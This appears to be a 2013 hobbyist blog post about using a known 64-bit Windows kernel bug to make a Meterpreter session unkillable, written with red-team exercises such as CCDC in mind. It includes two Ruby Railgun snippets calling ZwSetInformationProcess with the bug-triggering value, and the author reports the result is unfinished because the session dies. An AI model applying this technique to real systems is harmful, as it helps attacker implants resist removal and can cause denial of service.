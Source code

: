 ---
layout: post
title: "Unkillable Processes"
date: 2013-08-10 10:39
comments: true
categories:
- railgun
- x64
- incomplete
---

Saw this post about a kernel bug in 64 bit Windows that is a DoS, it can also create an unkillable process:
Blog post: http://waleedassar.blogspot.com/2013/02/kernel-bug-1-processiopriority.html

Figured I'd take a swing at making a module that I could put Meterpreter into an unkillable state. Good times at CCDC could be had.

Started with the C code for the bug: http://pastebin.com/QejGQXib along with the only resource I could find about the actual function: http://processhacker.sourceforge.net/doc/ntfill_8h.html#a6557e0dd024f0e9fa6132eb52d12810a

I came up with this:  

```ruby
client.railgun.add_function('ntdll','ZwSetInformationProcess','DWORD',[
   ["DWORD","ProcessHandle","in"],
   ["DWORD","ProcessInformationClass","in"],
   ["DWORD","ProcessInformation","inout"],
   ["DWORD","ProcessInformationLength","in"],
])
processinfo = 0x8000F129
tproc = client.sys.process.open
tmem = tproc.memory.allocate(4)
tproc.memory.write(tmem,processinfo)
cpidhandle = client.railgun.kernel32.GetCurrentProcess()['return']
client.railgun.ntdll.ZwSetInformationProcess(cpidhandle,0x21,tmem,0x4)
```

ScriptJunkie quickly identified that I was using a DWORD for a Handle and using 4 bits for a 64 bit process (should be 8) as well as the fact that I could use a PDWORD with the ProcessInformation inout parameter instead of writing it to memory myself.


The result:
```ruby
client.railgun.add_function('ntdll','ZwSetInformationProcess','DWORD',[
     ["HANDLE","ProcessHandle","in"],
     ["DWORD","ProcessInformationClass","in"],
     ["PDWORD","ProcessInformation","inout"],
     ["DWORD","ProcessInformationLength","in"],
])
processinfo = 0x8000F129
cpidhandle = client.railgun.kernel32.GetCurrentProcess()['return']
client.railgun.ntdll.ZwSetInformationProcess(cpidhandle,0x21,processinfo,0x4)
```

Which results in a process that you can't kill, but the process is also non-functioning as far as I can tell because the Meterpreter session dies. 


I'm curious if with some tweaking I can get it to act much like the KillMe.exe 
https://code.google.com/p/ollytlscatch/downloads/detail?name=KillMe.exe


Which continues to operate just fine after the modification happens.
